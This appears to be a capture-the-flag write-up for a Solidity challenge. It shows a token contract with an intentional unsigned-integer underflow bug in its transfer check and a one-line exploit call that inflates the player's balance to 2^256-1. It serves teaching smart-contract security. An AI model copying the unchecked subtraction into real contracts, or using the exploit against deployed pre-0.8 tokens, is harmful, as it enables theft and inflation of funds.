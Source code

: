 # Level 5 - Token

### Objective

The objective of this level is as follows:

1. Increase the number of tokens assigned to your address

### Contract

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    require(balances[msg.sender] - _value >= 0);
    balances[msg.sender] -= _value;
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];
  }
}
```

### Solution

This level is an example of an arithmetic underflow/overflow - an issue which was patched in `v0.8.0` in Solidity.

Arthimetic underflow occurs when subtraction of integers outputs an integer below the minimum value for an n-bit integer. For example, the minimum value of a 2-bit integer is `00`. Underflow occurs as follows:

```
00 - 1 = 11
```

Arthimetic overflow occurs when addition of integers outputs an integer above the maximum value for an n-bit integer. For example, the maximum value of a 2-bit integer is `11`. Overflow occurs as follows:

```
11 + 1 = 00
```

For those with a mathematical background, arithmetic overflow/underflow can be understood to be conceptually similar to modular arithmetic.

In this contract, we can take advantage of arithmetic underflow to assign ourselves a whole lot of tokens (precisely `2^256-1` tokens):

```
await contract.transfer('0x0000000000000000000000000000000000000000', 21)
```

We can verify that we recieved these tokens:

```
await contract.balanceOf(player).then(v => v.toString())

```

Done!

